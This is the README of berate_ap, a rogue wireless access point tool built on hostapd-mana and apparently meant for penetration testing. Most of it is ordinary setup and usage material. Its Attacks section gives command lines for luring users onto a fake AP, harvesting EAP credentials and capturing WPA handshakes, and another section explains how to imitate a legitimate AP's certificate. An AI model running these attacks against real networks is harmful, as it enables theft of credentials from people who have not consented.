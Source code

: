# Berate_ap 
[Create_ap](https://github.com/oblique/create_ap) has been modified to run EAP networks and [hostapd-mana](https://github.com/sensepost/hostapd-mana) with multiple options

## Setup
This script requires hostapd-mana to be in the path.

This may be done by adding the binary to your path directly:
```
export PATH="$PATH:/path/to/hostapd-mana"
```
To make this permanent you may add to your shells .rc file

or you may link hostapd-mana into a directory that is within your path
```
cd /usr/bin
sudo ln -s /path/to/hostapd-mana hostapd-mana
```

## Attacks

Run Mana to trick users into connecting to your access point. The eap users file is not passed so that the default mana eap user file is used: 

    berate_ap --eap --mana wlan0 eth0 MyAccessPoint 
    
Mana WPE attacks are no longer done by default when using `--mana` and have to be enabled seperatly:

    berate_ap --eap --mana-wpe wlan0 eth0 MyAccessPoint
    
Other Mana WPE options avaliable are `--mana-eapsuccess` and `--mana-eaptls`, the location of the credout file is by default `/tmp/hostapd.credout` but may be specified with `--mana-credout <file>` (Preferable to use full path). More information on these may be found in the [Hostapd-mana wiki](https://github.com/sensepost/hostapd-mana/wiki/MANA-EAP-Options-(aka-WPE)).

Run Mana with [WPA capture](https://github.com/sensepost/hostapd-mana/wiki/MANA-WPA-2-Options-(handshakes)) enabled. This currently requires that mana attacks be disabled. hccapx will be placed at `/tmp/hostapd.hccapx`, this may be specified with `--mana-wpaout <file>`:

    berate_ap --mana-wpa -n wlan0 <target Network Name> "ANYPASSWORD"

Run Mana in loud mode to show devices every access point seen by Mana:

    berate_ap --eap --mana --mana-loud wlan0 eth0 MyAccessPoint 

Run Mana and bridge the network connection to your ethernet address: 

    berate_ap --eap --mana -m bridge wlan0 eth0 MyAccessPoint 

Run Mana and be stingy by not providing any upstream Internet access:

    berate_ap --eap --mana -n wlan0 MyAccessPoint  

<!--Run Mana and host one of each network type to catch as many people as possible.

    berate_ap --trifecta --mana wlan0 eth0 MyAccessPoint -->

## More Convincing Certificate

When running your Rogue AP users may be presented with your certificate when authenticating, it is in your interest to make your certificate look as similar to the legitimate APs as possible. When running a EAP access point `berate_ap` will ask you to fill in fields to generate the certificate to be used, try input sensible values. 
To get the values of the certificate in use by the legitimate AP use [this script](https://gist.github.com/singe/40bda2a1772aaf4903515cc4e436afe5#gistcomment-2848828) to extract the certificate from a packet capture: 
```
./extract_EAP.sh -r <capture file>
```
or interface in monitor mode:
```
airmon-ng start <interface> <channel>
./extract_EAP.sh -i <interface>
```
you may then view the certificate with:
```
openssl x509 -text -inform der -in <capturedcert>.der
```
Which will allow you to see the values set in the cert so that with berate you may generate a more appealing looking AP.

## Features
* Create an AP (Access Point) at any channel.
* Choose one of the following encryptions: WPA, WPA2, WPA/WPA2, Open (no encryption).
* Support for Enterprise setups
* Hide your SSID.
* Disable communication between clients (client isolation).
* IEEE 802.11n & 802.11ac support
* Internet sharing methods: NATed or Bridged or None (no Internet sharing).
* Choose the AP Gateway IP (only for 'NATed' and 'None' Internet sharing methods).
* You can create an AP with the same interface you are getting your Internet connection.
* You can pass your SSID and password through pipe or through arguments (see examples).


## Dependencies
### General
* bash (to run this script)
* util-linux (for getopt)
* procps or procps-ng
* hostapd
* iproute2
* iw
* iwconfig (you only need this if 'iw' can not recognize your adapter)
* haveged (optional)

### For 'NATed' or 'None' Internet sharing method
* dnsmasq
* iptables


## Installation
### Generic
    git clone https://github.com/sensepost/berate_ap

## Examples
### No passphrase (open network):
    berate_ap wlan0 eth0 MyAccessPoint

### WPA + WPA2 passphrase:
    berate_ap wlan0 eth0 MyAccessPoint MyPassPhrase

### AP without Internet sharing:
    berate_ap -n wlan0 MyAccessPoint MyPassPhrase

### Bridged Internet sharing:
    berate_ap -m bridge wlan0 eth0 MyAccessPoint MyPassPhrase

### Bridged Internet sharing (pre-configured bridge interface):
    berate_ap -m bridge wlan0 br0 MyAccessPoint MyPassPhrase

### Internet sharing from the same WiFi interface:
    berate_ap wlan0 wlan0 MyAccessPoint MyPassPhrase

### Choose a different WiFi adapter driver
    berate_ap --driver rtl871xdrv wlan0 eth0 MyAccessPoint MyPassPhrase

### No passphrase (open network) using pipe:
    echo -e "MyAccessPoint" | berate_ap wlan0 eth0

### WPA + WPA2 passphrase using pipe:
    echo -e "MyAccessPoint\nMyPassPhrase" | berate_ap wlan0 eth0

### Enable IEEE 802.11n
    berate_ap --ieee80211n --ht_capab '[HT40+]' wlan0 eth0 MyAccessPoint MyPassPhrase

### Client Isolation:
    berate_ap --isolate-clients wlan0 eth0 MyAccessPoint MyPassPhrase

### Enterprise Network built-in RADIUS
    berate_ap --eap --eap-user-file /tmp/users.eap_hosts --eap-cert-path /tmp/certificates wlan0 eth0 MyAccessPoint 

### Enterprise Network Remote RADIUS
    berate_ap --eap --radius-server 192.168.1.1:1812 --radius-secret=P@ssw0rd wlan0 eth0 MyAccessPoint

## Systemd service
Using the persistent [systemd](https://wiki.archlinux.org/index.php/systemd#Basic_systemctl_usage) service
### Start service immediately:
    systemctl start berate_ap

### Start on boot:
    systemctl enable berate_ap


## License
FreeBSD
